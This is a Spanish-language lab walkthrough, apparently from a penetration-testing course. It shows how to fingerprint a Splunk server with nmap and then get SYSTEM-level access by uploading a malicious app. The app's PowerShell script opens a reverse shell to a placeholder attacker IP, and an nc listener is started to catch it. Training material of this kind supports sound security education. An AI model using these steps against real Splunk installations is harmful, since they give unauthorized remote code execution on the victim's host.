

# Laboratorio: Splunk 🔎

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    
</p>

--

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

**Output**
```java
<SNIP>
8000/tcp  open  ssl/http        Splunkd httpd
| ssl-cert: Subject: commonName=APP03/organizationName=SplunkUser
<SNIP>
```

--

3. Visitamos el servicio web, y vemos la versión de `Splunk` en el título de la página
* **URL:** `https://[IP]:8000/`

<p align="center">
    
</p>
---

# Laboratorio: Attacking Splunk ⚔

1. Descargamos el siguiente recurso: `https://github.com/0xjpuff/reverse_shell_splunk.git`
---
2. En el escaneo previa sabemos que la aplicación se encuentra **hosteada** en Windows, por lo que modificaremos el script **run.ps1** que se encuentra en el directorio `bin`

* **run.ps1**
```ps1
<SNIP>System.Net.Sockets.TCPClient('[IP Atacante]',[Puerto]);<SNIP>
```
  
* Lo comprimimos con `tar -cvzf shell.tar.gz reverse_shell_splunk`

---
4. Previamente nos ponemos en escucha con nc: **`rlwrap nc -lvnp [Puerto]`**
---
3. Nos dirigimos a `https://10.129.201.50:8000/en-US/manager/search/apps/local` y damos clic en ⬜`Install App From File`⬜, y subimos nuestra `aplicación comprimida`
---
5. Obtenemos un shell como el usuario `nt authority\system`, ahora leemos la **flag** 🏴

```cmd
PS C:\loot> type flag.txt
l00k_ma_no_AutH!
```